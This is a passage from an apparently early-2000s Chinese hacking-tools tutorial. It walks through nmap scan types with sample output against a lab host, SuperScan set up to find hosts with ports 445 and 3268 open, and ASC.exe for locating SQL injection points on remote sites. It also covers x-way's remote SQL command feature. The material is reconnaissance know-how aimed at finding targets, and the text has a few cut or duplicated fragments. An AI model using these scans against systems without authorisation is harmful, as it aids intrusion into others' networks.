“SQL 远程命令”是 x-way 2.6 集成的又一个非常实用的工具，只要我们拥有目标 SQL 服务器的帐号及密码，我们就可以通过这个功能来与目标 SQL 服务器建立连接，见图14，在流光中也有类似的功能。

以上只是 x-way 2.6 中主要的一些功能，至于其他的一些设置及使用，我想大家多使用几次就会熟练地掌握了。

## 1.4 NMAP

这里介绍的是 NMAP for Win 的版本（啊啊，Windows 下用 NMAP，总感觉怪怪的，啊啊），它继承了 LINUX 下的 NMAP，实在是~~~哎，一个爽字了得。

还是先来看一下 NMAP 的帮助：

```text
E:\hack-tool\nmap>nmap

Nmap V. 3.00 Usage: nmap [Scan Type(s)] [Options] <host or net list>

Some Common Scan Types ('*' options require root privileges)

* -sS TCP SYN stealth port scan (default if privileged (root))
- sT TCP connect() port scan (default for unprivileged users)
* -sU UDP port scan
- sP ping scan (Find any reachable machines)
* -sF, -sX, -sN Stealth FIN, Xmas, or Null scan (experts only)
- sR/-I RPC/Identd scan (use with other scan types)

Some Common Options (none are required, most can be combined):
* -O Use TCP/IP fingerprinting to guess remote operating system
- p <range> ports to scan. Example range: 1-1024,1080,6666,31337
- F Only scans ports listed in nmap-services
- v Verbose. Its use is recommended. Use twice for greater effect.
- P0 Don't ping hosts (needed to scan
www.microsoft.com and others)
* -Ddecoy_host1,decoy2[,...] Hide scan using many decoys
-T <Paranoid|Sneaky|Polite|Normal|Aggressive|Insane> General timing policy
-n/-R Never do DNS resolution/Always resolve [default: sometimes resolve]
-oN/-oX/-oG <logfile> Output normal/XML/grepable scan logs to <logfile>
-iL <inputfile> Get targets from file; Use `-` for stdin
* -S <your_IP>/-e <devicename> Specify source address or network interface
--interactive Go into interactive mode (then press h for help)
--win_help Windows-specific features
Example: nmap -v -sS -O www.my.com 192.168.0.0/16 '192.88-90.*.*'
SEE THE MAN PAGE FOR MANY MORE OPTIONS, DESCRIPTIONS, AND EXAMPLES
```

```text
443/tcp open https
445/tcp open microsoft-ds
1025/tcp open NFS-or-IIS
1026/tcp open LSA-or-nterm

Nmap run completed -- 1 IP address (1 host up) scanned in 1 second
```

HOHO，很多参数哦。NMAP 功能实在是很强大，这里我以实例来说明其功能：

该方式就是 SYN 扫描方式，也就是大家熟悉的半连接方式扫描，这样扫描相对会比较隐蔽，因为该扫描方式只完成了 TCP 连接中三次握手的两次。

而且，正是由于该方式在扫描过程中并未完全建立连接，所以其速度相对也比较快。

### 实例一：SYN 扫描方式

```text
E:\hack-tool\nmap>nmap -sS 192.168.0.1

Starting nmap V. 3.00 ( www.insecure.org/nmap )
Interesting ports on X-HUNTER (192.168.0.1):
(The 1592 ports scanned but not shown below are in state: closed)
Port      State   Service
21/tcp    open    ftp
25/tcp    open    smtp
80/tcp    open    http
135/tcp   open    loc-srv
139/tcp   open    netbios-ssn
```

### 实例二：TCP 扫描方式

```text
E:\hack-tool\nmap>nmap -sT 192.168.0.1

Starting nmap V. 3.00 ( www.insecure.org/nmap )
Interesting ports on X-HUNTER (192.168.0.1):
(The 1592 ports scanned but not shown below are in state: filtered)
Port      State   Service
21/tcp    open    ftp
25/tcp    open    smtp
80/tcp    open    http
135/tcp   open    loc-srv
139/tcp   open    netbios-ssn
443/tcp   open    https
445/tcp   open    microsoft-ds
1025/tcp  open    NFS-or-IIS
1026/tcp  open    LSA-or-nterm

Nmap run completed -- 1 IP address (1 host up) scanned in 402 seconds
```

这种扫描方式就是我们最常见的了，该扫描过程完成了三次握手的全部过程，因此其扫描结果比较准确（因为一旦握手完成，TCP 就会保证数据的准确传输，所以扫描结果自然会准确），但是由于其三次握手全部完成，因此其扫描速度也是……不敢恭维啊~~~（看我这里，居然用了 402 秒才扫描完成：scanned in 402 seconds，恐怖啊~~~）

### 实例三：UDP 端口扫描

```text
E:\hack-tool\nmap>nmap -sU 192.168.0.1

Starting nmap V. 3.00 ( www.insecure.org/nmap )

Interesting ports on X-HUNTER (192.168.0.1):
(The 1461 ports scanned but not shown below are in state: closed)

Port      State  Service
135/udp   open   loc-srv
137/udp   open   netbios-ns
138/udp   open   netbios-dgm
445/udp   open   microsoft-ds
500/udp   open   isakmp
1028/udp  open   ms-lsa
3456/udp  open   IISrpc-or-vat

Nmap run completed -- 1 IP address (1 host up) scanned in 7 seconds
```

大部分扫描器都是没有扫描 UDP 端口的功能，而 NMAP 可以说是弥补了这个空白。其实，由于 UDP 提供的是不可靠的连接，因此很少会有服务使用 UDP 端口，但是绝大部分服务在除了使用 TCP 端口以外，还会使用相同的 UDP 端口来作为辅助。

另外，如果能扫到我们常见的 UDP 4000 的话，还可以判断对方是个人上网用户（开了 QQ，啊啊~~~）

## 实例四：用 NMAP 来进行 ping 扫描

```text
E:\hack-tool\nmap>nmap -sP 192.168.0.1

Starting nmap V. 3.00 ( www.insecure.org/nmap )
Host X-HUNTER (192.168.0.1) appears to be up.
Nmap run completed -- 1 IP address (1 host up) scanned in 0 seconds
```

这里和大家平时使用的 ping 是有一些分别的。

平时使用的 ping 是发送 ICMP echo 请求，而这里呢，不但发送了一个 ICMP echo 请求，同时还发送了一个 TCP ACK 标志位（在第一次用来建立连接的时候发送的标志位），这样即使对方屏蔽了 ICMP echo 数据包，也是可以准确地检测到对方是否在线的。

这里还有几个参数：-sF、-sX、-sN，这三个参数针对微软的操作系统是没有作用的。因此，扫描非微软操作系统的时候，这三个参数就比较有用了。

### 实例五：判断操作系统

```text
E:\hack-tool\nmap>nmap -O 192.168.0.1

Starting nmap V. 3.00 ( www.insecure.org/nmap )

Interesting ports on X-HUNTER (192.168.0.1):
(The 1592 ports scanned but not shown below are in state: closed)

Port    State  Service
21/tcp  open   ftp
25/tcp  open   smtp
80/tcp  open   http
135/tcp  open  loc-srv
139/tcp  open  netbios-ssn
443/tcp  open  https
445/tcp  open  microsoft-ds
1025/tcp open  NFS-or-IIS
1026/tcp open  LSA-or-nterm

Remote operating system guess: Windows Millennium Edition (Me), Win 2000, or Win XP

Nmap run completed -- 1 IP address (1 host up) scanned in 1 second
```

一个参数 -O，可以进行操作系统的简单判断，不过并不是十分准确的，从结果中可以看出：

> Remote operating system guess: Windows Millennium Edition (Me), Win 2000, or Win XP

而实际上，被扫描的主机是一台 Windows 2000。

### 实例六

针对单一端口的扫描，同时判断哪个用户运行着该端口对应的服务。

```text
E:\hack-tool\nmap>nmap -sS -p 80 -I 192.168.0.1

Starting nmap V. 3.00 ( www.insecure.org/nmap )
Identscan only works with connect scan (-sT) -- ignoring option
Interesting ports on X-HUNTER (192.168.0.1):

Port    State   Service
80/tcp  open    http

Nmap run completed -- 1 IP address (1 host up) scanned in 1 second
```

```text
(1 host up) scanned in 1 second
```

（这里，判断用户的参数为 -I，-p 是用来指定特定端口的）

呵呵，这个命令太失败了，因为对方是 Windows 操作系统，如果是台 LINUX 的话，就可以判断出对方的 Web 服务器是由哪个用户运行着的。

而 Windows 的 Web 服务器（IIS）就是使用 system 来运行的（除了一些 IIS 进程外的应用），所以是否进行这样的扫描也没有什么意义，而且，-I 这个参数好像对 Windows 系统并不起作用。

另外，这里涉及到了 -p 参数，我们除了用它指定一个特定的端口外，还可以指定一个范围的端口，例如：

```text
E:\hack-tool\nmap>nmap -sS -p 1-1024 192.168.0.1

Starting nmap V. 3.00 ( www.insecure.org/nmap )
Interesting ports on X-HUNTER (192.168.0.1):
(The 1017 ports scanned but not shown below are in state: closed)

Port    State   Service
21/tcp  open    ftp
25/tcp  open    smtp
80/tcp  open    http
135/tcp open    loc-srv
139/tcp open    netbios-ssn
443/tcp open    https
445/tcp open    microsoft-ds

Nmap run completed -- 1 IP address (1 host up) scanned in 0 seconds
```

除了这些常见的扫描方法外，还有一个可有可无的参数，看一下实例：```text
E:\hack-tool\nmap>nmap -sS -p 1-1024 -v 192.168.0.1

Starting nmap V. 3.00 ( www.insecure.org/nmap )
Host X-HUNTER (192.168.0.1) appears to be up ... good.
Initiating SYN Stealth Scan against X-HUNTER (192.168.0.1)
Adding open port 80/tcp
Adding open port 21/tcp
Adding open port 135/tcp
Adding open port 443/tcp
Adding open port 445/tcp
Adding open port 139/tcp
Adding open port 25/tcp
The SYN Stealth Scan took 1 second to scan 1024 ports.
Interesting ports on X-HUNTER (192.168.0.1):
(The 1017 ports scanned but not shown below are in state: closed)
```

| Port | State | Service |
|---|---|---|
| 21/tcp | open | ftp |
| 25/tcp | open | smtp |
| 80/tcp | open | http |
| 135/tcp | open | loc-srv |
| 139/tcp | open | netbios-ssn |
| 443/tcp | open | https |
| 445/tcp | open | microsoft-ds |

```text
Nmap run completed -- 1 IP address (1 host up) scanned in 1 second
```

看到没，就是参数 -v。加上该参数，不过只是多了一个详细的扫描过程。

最后再说一个，啊呜，还是先看例子。

```text
E:\hack-tool\nmap>nmap -sS -P0 192.168.0.1

Starting nmap V. 3.00 ( www.insecure.org/nmap )
```

```text
Interesting ports on X-HUNTER (192.168.0.1):
(The 1592 ports scanned but not shown below are in state: closed)
```

| Port | State | Service |
|---|---|---|
| 21/tcp | open | ftp |
| 25/tcp | open | smtp |
| 80/tcp | open | http |
| 135/tcp | open | loc-srv |
| 139/tcp | open | netbios-ssn |
| 443/tcp | open | https |
| 445/tcp | open | microsoft-ds |
| 1025/tcp | open | NFS-or-IIS |
| 1026/tcp | open | LSA-or-nterm |

```text
Nmap run completed -- 1 IP address (1 host up) scanned in 0 seconds
```

感觉到什么变化没有？其实，很难感觉到的。不过这里有一个非常有用的参数——P0，因为 NMAP 扫描前会先发送 TCP 和 ICMP 来检测对方是否在线，如果不在的话，将不进行任何扫描，这样，就有可能是对方或你在线，但是由于一些手段或是意外等等，使 NMAP 的最初判断失效，这样就失去了一次机会。所以，这里加上 P0 的话，扫描前 NMAP 将不进行那些检测，而是直接使用指定的模式扫描。

另外，还有几个不常见而且不常用的 option，这里就不讲了，不然，讲多了好像也是废话，呵呵。

大家有兴趣的话，可以自己研究研究吧！

## 1.5 SuperScan cn3

SuperScan cn 是一款很不错的端口扫描器，扫描速度相当快。如果要寻找打开特定端口的主机，使用这个工具比较好。软件界面如图 1。



图 1

### 软件配置及应用

一般我们不需要怎么配置，不过如果要加快扫描速度，那就得配置一下了。少一个扫描选项，速度就会快很多。因此正确配置扫描选项很重要。点击“端口设置”进入配置界面，如图 2。



图 2

右击菜单的设置，设置这个可以方便连接主机。如果你安装了 FTP 客户端软件，可以点击那个按钮找到那软件。这样可以快速连接主机的 FTP，见图 3。

- FTP 登录(F)
- Telnet 登录(T)
- 网页浏览(W)



图 3

Telnet 和 Web 选项不用设置了，用默认的就可以了。

端口列表设置，我们如果要加快扫描速度或者扫描特定端口选择我们需要的主机，那就得配置一下端口选项了。比如我们要扫描同时开 445 和 3268 端口的主机（这个是扫什么主机的你应该很清楚吧）。

先载入 scanner.lst。那里面的端口列表比较齐。先点“全部清除”然后再找到 445 和 3268 并选择它们。然后点保存，文件名你可以自己设置，不要和其他的文件名一样就可以。也许你会发现里面并没有 3268 这个端口，没有关系了，你可以自己添加啊，见图 4。



图 4

在扫描的时候得选择“列表中全部选中的端口”，这样对端口扫描的设置才有效，见图 5。

这个软件的配置和使用的确比较简单，一般的人都会设置。如果灵活应用那还得自己去琢磨琢磨。



## 1.6 ASC.exe

脚本注入攻击是目前非常流行的一种网络攻击方法，也是很难以防范的一种安全漏洞，不同于以往经常使用的远程溢出攻击，因为那些溢出漏洞可以通过简单地安装补丁程序来修复那些危险的漏洞，而脚本注入漏洞是程序员在编写程序时因为编程的疏忽而造成的，除非我们能够确切地知道是哪个文件存在安全漏洞，然后重新修改存在问题的程序语句才能彻底地解决问题，但是因为文件的数量，以及每个文件中都可能有成千上万行的程序语句，所以几乎不可能有网站的管理员来逐个文件逐行地检查，这也就造成了大量的 Web 网站上都可能存在各种不同情况的脚本注入漏洞。

ASC.EXE 是一个专门检测 asp 文件中是否存在脚本注入点的程序，ASC.exe 的使用非常简单，见图 1，在“WEB URL:”栏中输入我们要检测的远程主机的 IP 地址或是域名，ASC.exe 就会对其 WEB 目录下的 asp 文件进行检测了，如果检测到存在注入点的话，就会显示在“SQL injection in URL”窗口中，见图 2。

不过遗憾的是，这个 ASC.exe 是一个功能限制版本，限制了针对这些检测出的注入点的破解功能。





## 1.7 Sleuth 1.4

Sleuth 是一个网页文件检查工具，它可以检查的文件类型包括：php、pl、asp、htm、cfm、jsp、cgi、dll、txt 等。但是这个工具与我们前边讲过的那个专门用于寻找网页上是否存在脚本漏洞的程序 asc.exe 不同的是，Sleuth 并不能用来检测脚本漏洞。

Sleuth 1.4 的安装很简单，一路 next 就可以了，启动后的界面见图 1。

会显示在最下方的小窗口中，同时，在上边的空白窗口中也会出现对方的网页，就是说，这个程序也具有网页浏览功能，见图 2。

Sleuth 检测的项目主要有：Links、Forms、Frames、Scripts、Comments、Meta、Cookie、Image、QueryStrings 等九小项。点击对应的按钮就是显示出检测到的相应的信息，缺省显示的是 Links 信息。



